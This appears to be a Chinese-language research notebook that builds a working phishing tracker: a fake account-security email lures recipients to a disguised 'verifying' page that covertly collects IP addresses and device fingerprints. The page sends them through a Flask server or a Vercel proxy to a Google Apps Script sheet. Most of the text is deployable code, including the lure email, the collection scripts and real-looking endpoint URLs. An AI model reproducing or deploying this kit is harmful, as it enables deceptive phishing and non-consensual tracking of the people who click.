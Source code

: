 ## Research 2: 實作關於寄送一封帶有特殊連結的 Email，使用者點擊後導入本地端架設的一個頁面，即刻收集 IP 與裝置資訊

流程圖:
```
[寄 Email 帶連結] → [使用者點擊] → [導向 Server 頁面] → [收集 IP/裝置資訊 + 儲存 Log]
```

### 首先嘗試在本地端架設一個簡單的Web

1. 建立本地端收集伺服器（使用 Flask）
```
pip install flask
```
2. 建立 app.py

```python
from flask import Flask, request, render_template
import datetime

app = Flask(__name__)

@app.route("/")
def collect():
    user_ip = request.remote_addr
    user_agent = request.headers.get("User-Agent")
    referrer = request.headers.get("Referer")
    current_time = datetime.datetime.now().isoformat()

    log = f"[{current_time}] IP: {user_ip} | UA: {user_agent} | Referrer: {referrer}\n"
    print(log)

    with open("visitor_logs.txt", "a") as f:
        f.write(log)

    return render_template("info.html")

from flask import Flask, request, render_template, jsonify

@app.route("/device-info", methods=["POST"])
def device_info():
    data = request.get_json()
    data["ip"] = request.remote_addr
    data["time"] = datetime.datetime.now().isoformat()

    with open("device_info_log.txt", "a") as f:
        f.write(str(data) + "\n")

    return jsonify({"status": "received"})


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

**Flask 的 /device-info 接收端點**
```python
from flask import Flask, request, render_template, jsonify

@app.route("/device-info", methods=["POST"])
def device_info():
    data = request.get_json()
    data["ip"] = request.remote_addr
    data["time"] = datetime.datetime.now().isoformat()

    with open("device_info_log.txt", "a") as f:
        f.write(str(data) + "\n")

    return jsonify({"status": "received"})

```

3. 建立收集裝置資訊的 HTML 頁面 (info.html)

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>請稍候...</title>
  <script>
    window.onload = function () {
      const data = {
        userAgent: navigator.userAgent,
        language: navigator.language,
        platform: navigator.platform,
        screen: `${screen.width}x${screen.height}`,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        hardwareConcurrency: navigator.hardwareConcurrency
      };

      fetch("/device-info", {
        method: "POST",
        headers: {"Content-Type": "application/json"},
        body: JSON.stringify(data)
      });
    };
  </script>
</head>
<body>
  <p>驗證中，請稍候...</p>
</body>
</html>
```
4.  寄送 Email 並內嵌特殊連結
建立 Email 內容（用 Gmail 寄送測試）

Ex:
```
主旨：帳戶安全驗證通知

內容：
您好，系統偵測到您帳戶異常登入，請於24小時內點擊以下連結進行驗證：

[點此立即驗證](http://<IP>:5000/?uid=abc123)

```

結果儲存成以下files:
- visitor_logs.txt：紀錄 IP、UA、Referrer、時間
- device_info_log.txt：詳細裝置資訊（螢幕解析度、平台、核心數、時區等）

*user_ip = request.remote_addr 會取得「瀏覽這個網頁的使用者的來源 IP 位址」，也就是連線到 Flask 伺服器的用戶端 IP

```
user_ip = request.remote_addr
```
在未經 Proxy 的狀況下，IP 是正確的來源端 IP（例如:使用者家裡、手機網路、公司網路的出站 IP）


### 嘗試架設免費的web，並可以透過browser可以直接存取
#### Google Sites

Google Sites 無法直接執行伺服器端程式 (例如 Flask)，只能放置 HTML、圖片等靜態內容。如果需求是「只要一個靜態收集頁面（JS + HTML）」，Google Sites 是可行的

1. 新增 HTML / JS 程式碼
Google Sites 不直接允許貼原始 HTML（例如 <script> 標籤），但可以用以下兩種方式：

- 方法 A：內嵌小工具
    - 在編輯畫面，選擇 「插入」→「內嵌」。
    - 選擇 「內嵌程式碼」。
    - 貼上 HTML 片段，例如：
    - 按下 「下一步」→「插入」。

- 方法 B：使用 iframe (未嘗試)
    - 如果要更彈性的程式碼，可以將完整的 HTML 上傳到 Google Drive，並設定為「可公開訪問」，再用 iframe 引入

**限制**
- 無法使用 Flask/PHP 這類後端程式，因此不能直接紀錄 IP 或寫入檔案。
- 如果要做 IP 收集與紀錄，需要一個可執行程式的伺服器

**解決方式**
- 結合 Google Apps Script
可以在 Google Site 的 JS 代碼中，把收集的資訊（例如 UA、螢幕解析度、IP）送到 Google Apps Script 的 Web App（它是免費的 Serverless 平台）。

Google Apps Script 可以：
- 接收 AJAX POST 資料
- 儲存到 Google Sheet
- 不用自己租伺服器
------ 
    
#### Google Sites + Google Apps Script

流程圖:
```
[使用者點擊 Google Sites 頁面] →
  [載入 JS，收集裝置資訊 + 呼叫 Google Apps Script Web App] →
    [Apps Script 接收資料並存入 Google Sheet + 記錄 IP]
```

1. 建立 Google Sheet 作為資料存儲
- 建立一份新的 Google Sheet
- 第一列輸入欄位：
```  
時間, IP, User Agent, Referrer
```

2. 建立 Google Apps Script Web App
- 開啟 Google Sheet → 擴充功能 → App Script
- 貼上以下程式碼：
```javascript
function doPost(e) {
  var sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();
  var ip = e.parameter.ip || "unknown";
  var ua = e.parameter.ua || "unknown";
  var res = e.parameter.resolution || "unknown";
  var platform = e.parameter.platform || "unknown";
  var lang = e.parameter.language || "unknown";
  var time = new Date();

  sheet.appendRow([time, ip, ua, res, platform, lang]);
  return ContentService.createTextOutput("ok");
}
```
- 點選左上角「部署」→「新部署」→ 選擇「網頁應用程式」
- 描述：log collector
- 執行應用程式的身份：你自己
- 允許誰訪問：任何人（含匿名者）
- 點選「部署」→ 取得網址，例如：
```
https://script.google.com/macros/s/xxx/exec
```
將原本 HTML 修改為：
- 從 api.ipify.org 取得外部 IP
- 將裝置資訊與 IP 組成 payload
- 傳送到 Google Apps Script Web App（https://script.google.com/macros/s/xxx/exec）

Ex: 
    
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>請稍候...</title>
  <script>
    window.onload = function () {
      fetch("https://api.ipify.org?format=json")
        .then(response => response.json())
        .then(ipData => {
          const params = new URLSearchParams({
            ip: ipData.ip,
            userAgent: navigator.userAgent,
            referrer: document.referrer || "None"
          });

          fetch("https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec", {
            method: "POST",
            body: params
          });
        });
    };
  </script>
</head>
<body>
  <p>驗證中，請稍候...</p>
</body>
</html>
```

**問題**
每次存取 Google Sites 上的頁面，Google Sheet 的內容都沒有更新

**原因**
Google Sites 不允許``<script>``執行，也無法直接呼叫外部 JS（包含 fetch）
Google Sites 對安全性限制非常嚴格，不允許在頁面內執行 ``<script>``、``<iframe>`` 中的 JavaScript（包含 fetch），所以即使在 HTML 中寫好 fetch(...) 傳送資料到 Google Apps Script Web App，也不會真的執行

**解決方式**
將收集 JavaScript 放在可以執行 JS 的地方（例如: GitHub / Vercel / Netlify），然後用 iframe 內嵌到 Google Sites

#### Vercel 

1. 上傳 index.html 到Vercel，自動部署成網站
建立一個 index.html（內容如下）：
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>資料收集中...</title>
  <script>
    window.onload = function () {
      fetch("https://api.ipify.org?format=json")
        .then(response => response.json())
        .then(ipData => {
          const params = new URLSearchParams({
            ip: ipData.ip,
            userAgent: navigator.userAgent,
            referrer: document.referrer || "None"
          });

          fetch("https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec", {
            method: "POST",
            body: params
          });
        });
    };
  </script>
</head>
<body>
  <p>正在驗證裝置資訊中...</p>
</body>
</html>
```
2. 修改 Google Apps Script 程式碼
```
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";

  // 每個欄位分開儲存
  sheet.appendRow([now, ip, ua, ref]);

  return ContentService.createTextOutput("OK");
}
```

**問題**
部署完Apps Script後，開啟網址會成功寫入 Google Sheet，但之後再次開啟就不會更新資料，存取網址只能更新一次

**可能原因 1：Google Apps Script Web App 回傳相同結果，瀏覽器快取導致請求被省略**
- Google Apps Script 的 Web App 是無狀態回應（返回相同結果 OK）。
- 如果瀏覽器認為「這個請求上次已經執行過，且沒有差異」，它可能會直接從快取回應而不再觸發 fetch() 請求。

**解法 1：在請求中加入亂數參數避免快取**
可以在 fetch(...) 的 URL 加上一個隨機的查詢參數，例如 timestamp，強迫瀏覽器重新請求：
```html
<script>
window.onload = function () {
  fetch("https://api.ipify.org?format=json")
    .then(response => response.json())
    .then(ipData => {
      const params = new URLSearchParams({
        ip: ipData.ip,
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None"
      });

      // 加上時間戳避免被快取
      const url = "https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec?ts=" + Date.now();

      fetch(url, {
        method: "POST",
        body: params
      });
    });
};
</script>
```

**可能原因 2：Vercel 網站有 cache 或無法觸發 window.onload 多次**
有些情況 window.onload 在 Vercel 上第二次進入時不會重新觸發（例如從快取載入）

**解法 2：改用 DOMContentLoaded（比 window.onload 更快、更穩定）**
```html
<script>
document.addEventListener("DOMContentLoaded", function () {
  fetch("https://api.ipify.org?format=json")
    .then(response => response.json())
    .then(ipData => {
      const params = new URLSearchParams({
        ip: ipData.ip,
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None"
      });

      // 防止快取，加上時間戳
      const url = "https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec?ts=" + Date.now();

      fetch(url, {
        method: "POST",
        body: params
      });
    });
});
</script>
```
**問題**
解法 1（加 ?ts=Date.now()）與解法 2（改用 DOMContentLoaded），但依然遇到：「第一次開啟 Vercel 網址會成功寫入 Google Sheet，但之後就不會更新」的問題。

按 F12 → Network，並觀察：
![image](https://hackmd.io/_uploads/r12RuOMDxg.png)
在紅色框這行，表示對 https://api.ipify.org?format=json 的 fetch 請求被阻擋了

**可能原因分析**
這通常是因為：
- 瀏覽器阻擋來自網站（vercel.app）跨站呼叫 https://api.ipify.org
- ipify 雖然通常可用，但偶爾會阻擋匿名跨網域 fetch 請求（視來源而定）

**解法一：改用替代 IP API**
改成 https://ipinfo.io/json
免費申請 IPinfo Token
- 註冊：https://ipinfo.io/signup
- 取得token（如：abcd1234efgh）
- 替換 <免費token> 後就能用

將 index.html 中的這段程式碼：
```
fetch("https://api.ipify.org?format=json")
```
改成：
```
fetch("https://ipinfo.io/json?token=<免費token>")
```

**問題**
使用了解法一，但還是出現錯誤

**可能原因分析**
CORS 限制，ipinfo.io 或 api.ipify.org 可能不允許從你網站的 origin 發送跨站請求


**解法二：直接在 Google Apps Script 中抓 IP**
如果不堅持前端抓 IP，也可以在 Apps Script 用 e.parameter 之外的 e 結構取得 IP：

在 Apps Script 中加入：
```
const ip = e.parameter.ip || e.headers['X-Forwarded-For'] || "unknown";
```
這樣就可以不用在前端打 ipify 或 ipinfo，改由後端抓取來源 IP

修改 Apps Script：後端自己抓來源 IP:
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getSheetByName("Log");
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  // 後端抓 IP（取自 request headers）
  let ip = "unknown";
  try {
    const forwarded = e?.headers?.['x-forwarded-for'];
    if (forwarded) {
      ip = forwarded.split(",")[0].trim();
    }
  } catch (err) {
    ip = "unknown";
  }

  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";

  sheet.appendRow([now, ip, ua, ref]);
  return ContentService.createTextOutput("OK");
}
```
前端 index.html 簡化版本（不再需要抓 IP）
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      const params = new URLSearchParams({
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None"
      });

      fetch("https://script.google.com/macros/s/YOUR_SCRIPT_ID/exec?ts=" + Date.now(), {
        method: "POST",
        body: params
      }).then(res => res.text()).then(t => console.log("Apps Script 回應:", t));
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
</body>
</html>
```

**問題**
修改之後，每一次存取網址後，Apps Script都能更新，但是後端自己抓不到來源 IP
![image](https://hackmd.io/_uploads/HkIVTdGvle.png)

每一次存取 Vercel 網址都能成功寫入 Google Sheet，但後端抓到的 IP 欄位有多筆是 unknown

按 F12 → Network，並觀察：
![image](https://hackmd.io/_uploads/HkxIAuzwel.png)

紅色框這行，代表 Google Apps Script Web App 的請求經過了重導向（302 Redirect），這會導致：
- 請求的 header（如 x-forwarded-for）在 redirect 時可能被丟失
- e.headers['x-forwarded-for'] 在 doPost() 中可能是 undefined
- 結果在 Apps Script 無法從後端取得 IP

另外，點 exec?ts=... → Headers，檢查發現沒有 ``x-forwarded-for``

表示 Google Apps Script 在「Web App 模式」下，並不提供 x-forwarded-for header 給 doPost(e)，特別是在匿名用戶、無認證訪問的情況下

**解法：改用中介 Proxy 後端（真正抓 IP）再轉發給 Apps Script**
由於 Google Apps Script 無法提供 request IP，唯一可靠的方法是透過自己的中介伺服器先收 IP，再將資料轉發給 Apps Script

#### 快速解法（無需自己架伺服器）：用 Vercel Serverless Function 當 Proxy
1. 在 Vercel 新增一個 API 端點 /api/forward.js：
```javascript
export default async function handler(req, res) {
  const ip = req.headers['x-forwarded-for'] || req.socket.remoteAddress || "unknown";
  const ua = req.headers['user-agent'] || "unknown";
  const ref = req.headers['referer'] || "unknown";

  // 將資料轉發到 Google Apps Script Web App
  const gscriptURL = "https://script.google.com/macros/s/AKfycbyM9jZAnb1q-4lpv8xXZcJzARjWIzbtC-qr7uYxPI0EiL09hkZdmNCVUbnaST4NECh0/exec";
  const params = new URLSearchParams({
    ip: ip,
    userAgent: ua,
    referrer: ref
  });

  await fetch(`${gscriptURL}?ts=${Date.now()}`, {
    method: "POST",
    body: params
  });

  res.status(200).send("OK");
}
```
2. 前端 index.html 改成呼叫自己的 Proxy：
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      fetch("/api/forward")
        .then(res => res.text())
        .then(msg => console.log("回應:", msg));
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
</body>
</html>
```

流程圖:
```
[使用者開啟 Vercel 網站 index.html]
      ↓
[觸發 /api/forward Serverless Function]
      ↓
[取得來源 IP, UA, Referrer]
      ↓
[轉發到 Google Apps Script Web App]
      ↓
[寫入 Google Sheet 成功]
```

3. Google Apps Script(跟第三版的一樣)
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";

  // 每個欄位分開儲存
  sheet.appendRow([now, ip, ua, ref]);

  return ContentService.createTextOutput("OK");
}
```
**問題**
在Vercel架設網頁出現錯誤:
![image](https://hackmd.io/_uploads/HySzCIhvgg.png)
**解決方式**
Add a `vercel.json` file at the root of your project, and use "rewrites" to rewrite all incoming paths to refer to your index path.
```
{
  "rewrites":  [
    {"source": "/(.*)", "destination": "/"}
  ]
}
```
refer: https://medium.com/today-i-solved/deploy-spa-with-react-router-to-vercel-d10a6b2bfde8


***注意Google Apps Script每次更新都需要重新"新增部屬作業"**

### 測試結果
開啟部署的網址 https://web-tsubasa.vercel.app/ 後，每次都會：
- 自動觸發 /api/forward
- 抓到實際 IP（例如 140.114.x.x）
- 將資料送到 Apps Script
- 寫入 Google Sheet

![image](https://hackmd.io/_uploads/Skf_ztzPge.png)

如果要增加其他的硬體資訊
Web 登入後可取得的硬體資訊與 IP（無需使用外掛）
| 資訊類型               | 可否取得                                      | 說明                                                 |
| ------------------ | ----------------------------------------- | -------------------------------------------------- |
| Public IP          | ✅（透過後端 `req.headers` 或 `x-forwarded-for`） | 已實作於 `forward.js` 中                                |
| User-Agent         | ✅                                         | 提供 OS、瀏覽器版本資訊                                      |
| Referrer           | ✅                                         | 使用者來源頁面                                            |
| 語言設定               | ✅                                         | `navigator.language`                               |
| 作業系統平台             | ✅                                         | `navigator.platform`                               |
| 螢幕解析度              | ✅                                         | `screen.width`, `screen.height`                    |
| 硬體核心數              | ✅                                         | `navigator.hardwareConcurrency`                    |
| 時區                 | ✅                                         | `Intl.DateTimeFormat().resolvedOptions().timeZone` |
| 指紋資訊（Canvas/WebGL） | ⚠️ 需 FingerprintJS 第三方套件                  |                                                    |
| 裝置名稱 / MAC / 硬碟序號  | ❌                                         | 出於瀏覽器安全性，無法直接取得                                    |

1. 修改後的index.html
收集硬體資訊並送給 /api/forward：
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      const data = {
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None",
        language: navigator.language,
        platform: navigator.platform,
        resolution: `${screen.width}x${screen.height}`,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        cores: navigator.hardwareConcurrency.toString()
      };

      fetch("/api/forward", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(data)
      })
      .then(res => res.text())
      .then(msg => console.log("回應:", msg));
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
</body>
</html>
```
2. 修改後的 api/forward.js（支援 JSON 傳入）
```javascript
export default async function handler(req, res) {
  const ip = req.headers['x-forwarded-for'] || req.socket.remoteAddress || "unknown";
  const ua = req.headers['user-agent'] || "unknown";

  let body = {};
  try {
    body = req.body;
    if (typeof body === "string") {
      body = JSON.parse(body); // for Vercel raw JSON
    }
  } catch (e) {
    console.error("解析 JSON 失敗", e);
  }

  const ref = body.referrer || "None";
  const lang = body.language || "unknown";
  const platform = body.platform || "unknown";
  const resolution = body.resolution || "unknown";
  const timezone = body.timezone || "unknown";
  const cores = body.cores || "unknown";

  const gscriptURL = "https://script.google.com/macros/s/AKfycbw6Zbb8WVk8AYyqoyglxEBGab4iyewNaUgx0Ul68bNv-Bw-clfch40X880Cmtg2tesY/exec";
  const params = new URLSearchParams({
    ip,
    userAgent: ua,
    referrer: ref,
    language: lang,
    platform,
    resolution,
    timezone,
    cores
  });

  await fetch(`${gscriptURL}?ts=${Date.now()}`, {
    method: "POST",
    body: params
  });

  res.status(200).send("OK");
}
```
3.  修改 Google Apps Script：接收擴充欄位並寫入 Sheet
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";
  const res = e.parameter.resolution || "unknown";
  const platform = e.parameter.platform || "unknown";
  const lang = e.parameter.language || "unknown";
  const tzName = e.parameter.timezone || "unknown";
  const cores = e.parameter.cores || "unknown";

  sheet.appendRow([now, ip, ua, ref, res, platform, lang, tzName, cores]);
  return ContentService.createTextOutput("OK");
}
```

如果要修改成讓使用者瀏覽網頁時：
:white_check_mark: 收集裝置資訊與 IP
:white_check_mark: 傳送到 Server
:white_check_mark: 將收集結果即時顯示在網頁上

整體架構變更摘要
要做的事是：
-  前端：收集資訊 → 傳送 /api/forward
-  後端（Vercel）：加入回傳收集資料（包含 IP）
-  前端：拿到伺服器回傳資料後，更新頁面 DOM

1. 修改後的 index.html
```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8">
  <title>驗證中...</title>
  <style>
    #info-box {
      margin-top: 20px;
      padding: 10px;
      border: 1px solid #ccc;
      font-family: monospace;
      white-space: pre-wrap;
    }
  </style>
  <script>
    document.addEventListener("DOMContentLoaded", function () {
      const data = {
        userAgent: navigator.userAgent,
        referrer: document.referrer || "None",
        language: navigator.language,
        platform: navigator.platform,
        resolution: `${screen.width}x${screen.height}`,
        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
        cores: navigator.hardwareConcurrency?.toString() || "unknown"
      };

      fetch("/api/forward", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(data)
      })
      .then(res => res.json())  // ← 期待回傳 JSON
      .then(result => {
        const box = document.getElementById("info-box");
        box.innerText =
          `已回傳並收到以下裝置資訊：\n\n` +
          `時間：${result.timestamp}\n` +
          `IP：${result.ip}\n` +
          `User-Agent：${result.userAgent}\n` +
          `Referrer：${result.referrer}\n` +
          `Resolution：${result.resolution}\n` +
          `Platform：${result.platform}\n` +
          `Language：${result.language}\n` +
          `Timezone：${result.timezone}\n` +
          `CPU Cores：${result.cores}`;
      })
      .catch(err => {
        document.getElementById("info-box").innerText = "資訊回傳失敗：" + err;
      });
    });
  </script>
</head>
<body>
  <p>正在驗證裝置資訊，請稍候...</p>
  <div id="info-box">📡 等待伺服器回應...</div>
</body>
</html>
```

2. 修改後的 forward.js
讓 server 回傳完整資料（包含時間與 IP）：
```javascript
export default async function handler(req, res) {
  if (req.method !== "POST") {
    return res.status(405).send("Method Not Allowed");
  }

  const ip = req.headers['x-forwarded-for']?.split(',')[0].trim() || req.socket.remoteAddress || "unknown";
  const ua = req.headers['user-agent'] || "unknown";

  let body = {};
  try {
    body = typeof req.body === "string" ? JSON.parse(req.body) : req.body;
  } catch (e) {
    console.error("JSON 解析失敗", e);
  }

  const now = new Date().toISOString();  // 傳給前端顯示時間（UTC 格式）

  const data = {
    timestamp: now,
    ip,
    userAgent: ua,
    referrer: body.referrer || "None",
    language: body.language || "unknown",
    platform: body.platform || "unknown",
    resolution: body.resolution || "unknown",
    timezone: body.timezone || "unknown",
    cores: body.cores || "unknown"
  };

  // 傳送到 Google Apps Script 儲存
  const gscriptURL = "https://script.google.com/macros/s/AKfycbw6Zbb8WVk8AYyqoyglxEBGab4iyewNaUgx0Ul68bNv-Bw-clfch40X880Cmtg2tesY/exec";
  const params = new URLSearchParams(data);

  try {
    await fetch(`${gscriptURL}?ts=${Date.now()}`, {
      method: "POST",
      body: params
    });
  } catch (err) {
    console.error("轉發到 GAS 失敗:", err);
  }

  // 回傳完整資料給前端
  res.status(200).json(data);
}
```

3. Google Apps Script 不需更動
```javascript
function doPost(e) {
  const sheet = SpreadsheetApp.getActiveSpreadsheet().getActiveSheet();

  // 設定台灣時區時間（+08:00）
  const tz = "Asia/Taipei";
  const now = Utilities.formatDate(new Date(), tz, "yyyy/MM/dd HH:mm:ss");

  const ip = e.parameter.ip || "unknown";
  const ua = e.parameter.userAgent || "unknown";
  const ref = e.parameter.referrer || "None";
  const res = e.parameter.resolution || "unknown";
  const platform = e.parameter.platform || "unknown";
  const lang = e.parameter.language || "unknown";
  const tzName = e.parameter.timezone || "unknown";
  const cores = e.parameter.cores || "unknown";

  sheet.appendRow([now, ip, ua, ref, res, platform, lang, tzName, cores]);
  return ContentService.createTextOutput("OK");
}
```
